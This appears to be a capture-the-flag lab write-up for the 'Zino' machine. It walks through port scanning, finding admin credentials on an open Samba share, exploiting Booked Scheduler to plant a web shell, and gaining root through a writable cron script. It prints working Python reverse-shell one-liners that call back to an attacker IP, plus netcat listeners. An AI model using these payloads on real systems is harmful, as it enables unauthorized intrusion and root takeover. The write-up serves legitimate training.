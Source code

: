 ```yaml
---
description: 11-10-2022
---
```


# "Zino" (Intermediate)

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b26675501b18f5e99fdb2cd4e3957a44 (RSA)
|   256 912d26f1baafd18b698f814a32af9c77 (ECDSA)
|_  256 ec6fdf8bce19138a52573e72a3146f40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL, SIPOptions: 
|_    Host '192.168.49.81' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Index of /
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=11/10%Time=636D9BA7%P=x86_64-pc-linux-gnu%r(N
SF:ULL,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOption
SF:s,4C,"H\0\0\x01\xffj\x04Host\x20'192\.168\.49\.81'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: ZINO, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: zino
|   NetBIOS computer name: ZINO\x00
|   Domain name: \x00
|   FQDN: zino
|_  System time: 2022-11-10T19:47:50-05:00
|_clock-skew: mean: 1h40m01s, deviation: 2h53m14s, median: 0s
| smb2-time: 
|   date: 2022-11-11T00:47:51
|_  start_date: N/A
```

Enumerated UDP ports:

```
All 1000 scanned ports on 192.168.81.64 are in ignored states
```

Notes:

* 445/Samba enumeration -- Enum4Linux
* 8003/HTTP <mark style="color:yellow;">Apache 2.4.38 -- "Booked Scheduler" Web Application</mark>

## Enumeration

### Port 8003 - HTTP (Apache 2.4.38)-&#x20;

* I was able to create a new login and authenticate with those credentials
* Searchsploit revealed 3 authenticated RCE vulnerabilities that may come in handy later

```
searchsploit booked

Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execut | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directo | php/webapps/48428.txt
```

* I paid close attention to <mark style="color:yellow;">50594.py</mark>
  * Reason being: Python script -- familiar territory

### Port 445 - Samba&#x20;

Enum4Linux:

```
Sharename       Type      Comment
        ---------       ----      -------
        zino            Disk      Logs
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            

[+] Attempting to map shares on 192.168.81.64                                    
                                                                                 
//192.168.81.64/zino    Mapping: OK Listing: OK Writing: N/A                     
//192.168.81.64/print$  Mapping: DENIED Listing: N/A Writing: N/A
```

We can access the <mark style="color:yellow;">zino</mark> share with <mark style="color:yellow;">smbclient</mark>:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* From here, I downloaded all of the files for further enumeration

<mark style="color:yellow;">Misc.log</mark>:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">admin</mark>:<mark style="color:yellow;">adminadmin</mark>

* I then logged into the web server with these credentials and we were now admin!
* Now that we have authentication, let's go back to the <mark style="color:yellow;">50594.py exploit</mark>

## Exploitation

### 50594.py -- <mark style="color:yellow;">Booked Scheduler 2.7.5 - Remote Command Execution</mark>&#x20;

```
python3 50594.py http://192.168.81.64:8003 admin adminadmin
[+] Logged in successfully.
[+] Uploaded shell successfully
[+] http://192.168.81.64:8003/booked/Web/custom-favicon.php?cmd=
```

* A web shell was created!

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

* My next goal was to establish further persistence with another reverse shell
* However, since we are still in a web shell, we need to URL encode the reverse shell

Cyber Chef:

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

URL-Encoded Python Reverse Shell:

{% code overflow="wrap" %}
```
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22192.168.49.81%22%2C3306))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27%0A
```
{% endcode %}

* Start a nc listener on Kali -- <mark style="color:red;">`nc -lnvp 3306`</mark>
* Execute the reverse shell within the web shell and you will gain further persistence

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

*   I then stabalized my shell with Python &#x20;

    ```
    python -c 'import pty;pty.spawn("/bin/bash")'
    ```

### Privilege Escalation

* Uploaded <mark style="color:yellow;">linpeas</mark>

### PrivEsc vector

* <mark style="color:yellow;">Vulnerable Cron Job running every three minutes -- It is running with root permissions as well</mark>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* I simply removed the file -- <mark style="color:yellow;">`rm -f /var/www/html/booked/cleanup.py`</mark>

Replaced it with the following:

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.81",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > /var/www/html/booked/cleanup.py
```

Nc Listener:

```
nc -lnvp 21
```

* Waited three minutes and I was able to get a shell as root!

## Proofs

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

